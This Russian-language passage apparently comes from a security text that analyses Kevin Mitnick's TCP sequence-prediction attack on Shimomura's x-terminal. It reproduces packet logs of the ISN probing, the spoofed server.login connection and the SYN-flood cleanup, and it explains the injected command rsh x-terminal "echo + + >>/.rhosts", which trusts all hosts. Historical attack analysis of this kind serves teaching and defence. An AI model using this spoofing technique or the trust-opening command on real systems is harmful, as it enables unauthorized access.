14:18:32.335373 x-terminal.shell >
apollo.it.luc.edu.988: S 2023360000:2023360000(0)
ack 1382727003 win 4096
14:18:32.413041 apollo.it.luc.edu.988 >
x-terminal.shell: R 1382727003:1382727003(0) win 0
14:18:32.674779 apollo.it.luc.edu.987 >
x-terminal.shell: S 1382727003:1382727003(0) win 4096
14:18:32.845373 x-terminal.shell >
apollo.it.luc.edu.987: S 2023488000:2023488000(0)
ack 1382727004 win 4096
14:18:32.922158 apollo.it.luc.edu.987 >
x-terminal.shell: R 1382727004:1382727004(0) win 0
14:18:33.184839 apollo.it.luc.edu.986 >
x-terminal.shell: S 1382727004:1382727004(0) win 4096
14:18:33.355505 x-terminal.shell >
apollo.it.luc.edu.986: S 2023616000:2023616000(0)
ack 1382727005 win 4096
14:18:33.435221 apollo.it.luc.edu.986 >
x-terminal.shell: R 1382727005:1382727005(0) win 0
14:18:33.695170 apollo.it.luc.edu.985 >
x-terminal.shell: S 1382727005:1382727005(0) win 4096
14:18:33.985966 x-terminal.shell >
apollo.it.luc.edu.985: S 2023744000:2023744000(0)
ack 1382727006 win 4096
14:18:34.062407 apollo.it.luc.edu.985 >
x-terminal.shell: R 1382727006:1382727006(0) win 0
14:18:34.204953 apollo.it.luc.edu.984 >
x-terminal.shell: S 1382727006:1382727006(0) win 4096
14:18:34.375641 x-terminal.shell >
apollo.it.luc.edu.984: S 2023872000:2023872000(0)
ack 1382727007 win 4096
14:18:34.452830 apollo.it.luc.edu.984 >
x-terminal.shell: R 1382727007:1382727007(0) win 0
14:18:34.714996 apollo.it.luc.edu.983 >
x-terminal.shell: S 1382727007:1382727007(0) win 4096
14:18:34.885071 x-terminal.shell >
apollo.it.luc.edu.983: S 2024000000:2024000000(0)
ack 1382727008 win 4096
14:18:34.962030 apollo.it.luc.edu.983 >
x-terminal.shell: R 1382727008:1382727008(0) win 0
14:18:35.225869 apollo.it.luc.edu.982 >
x-terminal.shell: S 1382727008:1382727008(0) win 4096
14:18:35.395723 x-terminal.shell >
apollo.it.luc.edu.982: S 2024128000:2024128000(0)
ack 1382727009 win 4096
14:18:35.472150 apollo.it.luc.edu.982 >
x-terminal.shell: R 1382727009:1382727009(0) win 0
14:18:35.735077 apollo.it.luc.edu.981 >
x-terminal.shell: S 1382727009:1382727009(0) win 4096
14:18:35.905684 x-terminal.shell >
apollo.it.luc.edu.981: S 2024256000:2024256000(0)
ack 1382727010 win 4096
14:18:35.983078 apollo.it.luc.edu.981 >
x-terminal.shell: R 1382727010:1382727010(0) win 0
Видно, что каждый последующий ответный пакет
SYN-ACK, посылаемый с хоста x-terminal, имеет начальное
значение идентификатора TCP-соединения на 128000
больше, чем у предыдущего.
|
Из анализа приведенной распечатки пакетов видно, что каждое последующее начальное значение ISN на хосте x-terminal.shell отличается от предыдущего на 128000. Например, 2024256000 - 2024128000 = 128000 или 2024128000 - 2024000000 = 128000. Не правда ли, простейший закон генерации ISN?!
|
Далее мы видим поддельный запрос на создание
TCP-соединения якобы с хоста server.login на
x-terminal.shell. При этом x-terminal доверяет хосту server и,
следовательно, x-terminal будет выполнять все
запросы, переданные с этого хоста (или с любого
другого, подменившего хост server).
X-terminal затем отвечает на хост server пакетом SYN-ACK и
ожидает подтверждения этого пакета ACK'ом, что
должно означать открытие соединения. Так как
хост server игнорирует все пакеты, посланные на
server.login, то поддельный пакет атакующего,
подтвержденный ACK'ом, должен иметь успех.
Обычно значение подтверждения (ACK) берется из
пакета SYN-ACK. Однако атакующий, используя
предсказание закона изменения начального
значения идентификатора TCP-соединения на хосте
x-terminal,
сможет получить значение ACK без получения пакета
SYN-ACK:
|
Используя полученную математическую зависимость для предсказания значения ISN, атакующий может послать следующий пакет от имени server.login со значением ACK, равным 2024384001, вычисленным по его предыдущему значению 2024256000 добавлением к нему 128000 + 1.
|
14:18:36.245045 server.login >
x-terminal.shell: S 1382727010:1382727010(0) win 4096
14:18:36.755522 server.login >
x-terminal.shell: . ack 2024384001 win 4096
Хост атакующего сейчас имеет одностороннее
соединение с x-terminal.shell, который считает, что это
соединение открыто с server.login. Атакующий теперь
может передавать пакеты с данными, содержащими
верные значения ACK, на x-terminal. Далее, он посылает
следующие пакеты:
14:18:37.265404 server.login >
x-terminal.shell: P 0:2(2) ack 1 win 4096
14:18:37.775872 server.login >
x-terminal.shell: P 2:7(5) ack 1 win 4096
14:18:38.287404 server.login >
x-terminal.shell: P 7:32(25) ack 1 win 4096
что означает выполнение следующей команды:
14:18:37 server# rsh x-terminal "echo + + >>/.rhosts"
|
Атакующий, завершая атаку, от имени server.login посылает на
x-terminal.shell три пакета, что эквивалентно выполнению на хосте server следующей r-команды: rsh x-terminal "echo + + >>/.rhosts". Эта команда дописывает в файл /.rhosts строчку + + и делает доверенными все станции.
|
Всего атака заняла менее 16 секунд.
Атакующий закрывает ложное соединение:
14:18:41.347003 server.login >
x-terminal.shell: . ack 2 win 4096
14:18:42.255978 server.login >
x-terminal.shell: . ack 3 win 4096
14:18:43.165874 server.login >
x-terminal.shell: F 32:32(0) ack 3 win 4096
14:18:52.179922 server.login >
x-terminal.shell: R 1382727043:1382727043(0) win 4096
14:18:52.236452 server.login >
x-terminal.shell: R 1382727044:1382727044(0) win 4096
Далее, атакующий посылает RST-пакеты и,
следовательно, закрывает ранее открытые
"односторонние" соединения с server.login, тем
самым освобождая очередь запросов:
14:18:52.298431 130.92.6.97.600 >
server.login: R 1382726960:1382726960(0) win 4096
14:18:52.363877 130.92.6.97.601 >
server.login: R 1382726961:1382726961(0) win 4096
14:18:52.416916 130.92.6.97.602 >
server.login: R 1382726962:1382726962(0) win 4096
14:18:52.476873 130.92.6.97.603 >
server.login: R 1382726963:1382726963(0) win 4096
14:18:52.536573 130.92.6.97.604 >
server.login: R 1382726964:1382726964(0) win 4096
14:18:52.600899 130.92.6.97.605 >
server.login: R 1382726965:1382726965(0) win 4096
14:18:52.660231 130.92.6.97.606 >
server.login: R 1382726966:1382726966(0) win 4096
14:18:52.717495 130.92.6.97.607 >
server.login: R 1382726967:1382726967(0) win 4096
14:18:52.776502 130.92.6.97.608 >
server.login: R 1382726968:1382726968(0) win 4096
14:18:52.836536 130.92.6.97.609 >
server.login: R 1382726969:1382726969(0) win 4096
14:18:52.937317 130.92.6.97.610 >
server.login: R 1382726970:1382726970(0) win 4096
14:18:52.996777 130.92.6.97.611 >
server.login: R 1382726971:1382726971(0) win 4096
14:18:53.056758 130.92.6.97.612 >
server.login: R 1382726972:1382726972(0) win 4096
14:18:53.116850 130.92.6.97.613 >
server.login: R 1382726973:1382726973(0) win 4096
14:18:53.177515 130.92.6.97.614 >
server.login: R 1382726974:1382726974(0) win 4096
14:18:53.238496 130.92.6.97.615 >
server.login: R 1382726975:1382726975(0) win 4096
14:18:53.297163 130.92.6.97.616 >
server.login: R 1382726976:1382726976(0) win 4096
14:18:53.365988 130.92.6.97.617 >
server.login: R 1382726977:1382726977(0) win 4096
14:18:53.437287 130.92.6.97.618 >
server.login: R 1382726978:1382726978(0) win 4096
14:18:53.496789 130.92.6.97.619 >
server.login: R 1382726979:1382726979(0) win 4096
14:18:53.556753 130.92.6.97.620 >
server.login: R 1382726980:1382726980(0) win 4096
14:18:53.616954 130.92.6.97.621 >
server.login: R 1382726981:1382726981(0) win 4096
14:18:53.676828 130.92.6.97.622 >
server.login: R 1382726982:1382726982(0) win 4096
14:18:53.736734 130.92.6.97.623 >
server.login: R 1382726983:1382726983(0) win 4096
14:18:53.796732 130.92.6.97.624 >
server.login: R 1382726984:1382726984(0) win 4096
14:18:53.867543 130.92.6.97.625 >
server.login: R 1382726985:1382726985(0) win 4096
14:18:53.917466 130.92.6.97.626 >
server.login: R 1382726986:1382726986(0) win 4096
14:18:53.976769 130.92.6.97.627 >
server.login: R 1382726987:1382726987(0) win 4096
14:18:54.039039 130.92.6.97.628 >
server.login: R 1382726988:1382726988(0) win 4096
14:18:54.097093 130.92.6.97.629 >
server.login: R 1382726989:1382726989(0) win 4096
Хост server.login снова готов к приему запросов на
создание соединения" .
Мы намеренно не стали вдаваться в подробное
литературное описание этого инцидента
(беллетристики о Митнике более чем достаточно), а
остановились только на технических подробностях
этой удаленной атаки. В заключение приведем
слова Шимомуры, сказанные им в интервью после
поимки Митника: "Из того, что я видел, мне он не
кажется таким уж большим специалистом."
И добавил: "Проблема не в Кевине, проблема в
том, что большинство систем действительно плохо
защищены. То, что делал Митник, остается
осуществимым и сейчас" .
|
Кстати, по поводу того, был ли на самом деле Кевин Митник кракером высшего класса, ходит много споров. То, что он начинал как фрикер (phreaker) высшего класса, очевидно всем. Далее его кракерскую деятельность до первого похода в тюрьму трудно назвать профессиональной, так как он не отличился ничем, кроме профессионального лазанья по помойкам в поисках клочка выброшенной бумаги с паролями пользователей и заговариванием зубов сетевым администраторам по телефону в попытках выудить у них пароли - тут он был действительно профессионалом (этому виду "атак" теперь даже дан термин: "социальная инженерия"). Однако, сидя в тюрьме, он, видимо, наконец поднабрался необходимого опыта в искусстве сетевого взлома и теперь уже вполне мог подходить под тот образ "супер-хакера", созданный американской прессой. Хотя любому специалисту очевидно, что в данном случае в связи с простейшим законом генерации ISN в ОС Solaris 1, осуществленная Кевином удаленная атака является тривиальной и, по сути, Шимомура на нее сам напросился. Наверное, если Шимомура был бы действительно таким профессиональным специалистом по информационной безопасности, каким его описывает пресса, то он, очевидно, знал о возможности осуществления подобной атаки, но он ничего не предпринимал (интересно, почему - может он именно того и хотел, чтобы его взломали? До этого случая Шимомуру никто и не знал, зато теперь он один из самых известных экспертов по безопасности). Точного ответа на эти вопросы мы, видимо, не узнаем.
|
|